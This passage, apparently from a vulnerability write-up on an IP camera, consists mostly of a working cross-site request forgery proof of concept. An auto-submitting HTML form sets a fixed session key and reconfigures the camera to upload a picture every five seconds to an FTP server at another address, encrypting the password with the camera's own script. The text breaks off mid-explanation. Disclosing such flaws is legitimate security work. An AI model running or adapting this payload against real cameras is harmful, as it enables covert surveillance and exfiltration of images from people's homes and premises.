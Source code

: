 An overview of the code is described below:

1. SessionKey has been set to '1'
1. IP and port for FTP has been set to 192.168.0.15:2121
1. Request instructs the camera to upload a picture to the FTP-server every 5
seconds
1. Password has been set to 'password' and before the request is submitted, this
value will be enciphered with the key '1'.

~~~
<html>
<head>
<script src="http://192.168.0.15/function.js"></script>
</head>

<body>
<form id="form" action="http://192.168.0.16/setSystemFTP" method="POST">
 <input type="hidden" id="ReplySuccessPage" name="ReplySuccessPage" value="upload.htm">
 <input type="hidden" id="ReplyErrorPage" name="ReplyErrorPage" value="errrftp.htm">
 <input type="hidden" id="FTPScheduleEnable" name="FTPScheduleEnable" value="1">
 <input type="hidden" id="FTPScheduleDay" name="FTPScheduleDay" value="0">
 <input type="hidden" id="FTPCreateFolderInterval" name="FTPCreateFolderInterval" value="0">
 <input type="hidden" id="SessionKey" name="SessionKey" value="1">
 <input type="text" id="FTPHostAddress" name="FTPHostAddress"  value="192.168.0.15">
 <input type="text" id="FTPPortNumber" name="FTPPortNumber" value="2121">
 <input type="text" id="FTPUserName" name="FTPUserName" value="user">
 <input type="password" id="FTPPassword" name="FTPPassword" value="password">
 <input type="text" id="FTPDirectoryPath" name="FTPDirectoryPath" value="/">
 <input type="text" id="FTPPassiveMode" name="FTPPassiveMode" value="1">
 <input type="text" id="FTPScheduleMode" name="FTPScheduleMode" value="0">
 <input type="text" id="FTPScheduleFramePerSecond" name="FTPScheduleFramePerSecond" value="1">
 <input type="text" id="FTPScheduleFramePerSecondSel" name="FTPScheduleFramePerSecondSel" value="1">
 <input type="text" id="FTPScheduleVideoFrequencyMode" name="FTPScheduleVideoFrequencyMode" value="1">
 <input type="text" id="FTPScheduleSecondPerFrame" name="FTPScheduleSecondPerFrame" value="5">
 <input type="text" id="FTPScheduleBaseFileName" name="FTPScheduleBaseFileName" value="DCS">
 <input type="text" id="ConfigSystemFTP" name="ConfigSystemFTP" value=" Save ">
</form>
</body>

<script>
var pass = document.getElementById("FTPPassword").value;
var sess = document.getElementById("SessionKey").value;
document.getElementById("FTPPassword").value = EncryptPass(pass, sess);
document.getElementById('form').submit();
</script>

</html>
~~~

A brief overview of how the password has been enciphered is shown below:
